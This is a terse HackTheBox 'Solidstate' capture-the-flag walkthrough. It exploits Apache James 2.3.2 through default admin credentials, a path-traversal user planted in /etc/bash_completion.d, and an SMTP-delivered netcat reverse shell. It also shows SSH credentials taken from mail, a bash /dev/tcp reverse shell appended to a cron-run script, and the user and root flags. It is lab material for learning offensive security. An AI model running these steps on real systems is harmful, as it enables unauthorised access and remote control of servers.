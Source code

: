 # HackTheBox : Solidstate

```James Server 2.3.2```
https://www.exploit-db.com/docs/english/40123-exploiting-apache-james-server-2.3.2.pdf


```zsh
telnet 10.10.10.51 4555
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
JAMES Remote Administration Tool 2.3.2
Please enter your login and password
Login id:                                                                                                                                                                   
root                                                                                                                                                                        
Password:                                                                                                                                                                   
root                                                                                                                                                                        
Welcome root. HELP for a list of commands
adduser ../../../../../../../../etc/bash_completion.d pass
User ../../../../../../../../etc/bash_completion.d added
QUIT
```



```zsh
telnet 10.10.10.51 25                                                                              
Trying 10.10.10.51...                                                                                   
Connected to 10.10.10.51.                                                                               
Escape character is '^]'.                                                                               
220 solidstate SMTP Server (JAMES SMTP Server 2.3.2) ready Sun, 7 Jun 2020 06:30:30 -0400 (EDT)         
EHLO someone@mydomain                                                                                   
250-solidstate Hello someone@mydomain (10.10.14.11 [10.10.14.11])                                       
250-PIPELINING                                                                                          
250 ENHANCEDSTATUSCODES                                                                                 
MAIL FROM:<'you@domain.com>                                                          
250 2.1.0 Sender <'you@domain.com> OK

RCPT TO:<../../../../../../../../etc/bash_completion.d>                                                                                                                     
250 2.1.5 Recipient <../../../../../../../../etc/bash_completion.d@localhost> OK                                                                                            
DATA                                       
354 Ok Send data ending with <CRLF>.<CRLF>                                            
FROM: someone@yourdomain 
354 Ok Send data ending with <CRLF>.<CRLF>                                            
FROM: somone@mydomain.com                  
'                                          
/bin/nc -e /bin/bash 10.10.14.11 443                                                  
.                                          
250 2.6.0 Message received                                                            
QUIT                  
'                                          
```
Read the mails in the POP server port 110 for mindy and get ssh creds

```
ssh -P P@55W0rd1!2@ mindy@10.10.10.51
```


Try to add this in ```opt/tmp.py ``` which runs every 3 minute


bash -i >& /dev/tcp/10.10.14.11/444 0>&1

echo "os.system('bash -c "bash -i >& /dev/tcp/10.10.14.11/444 0>&1"')" >> tmp.py

user flag: 914d0a4ebc177889b5b89a23f556fd75
root flag: b4c9723a28899b1c45db281d99cc87c9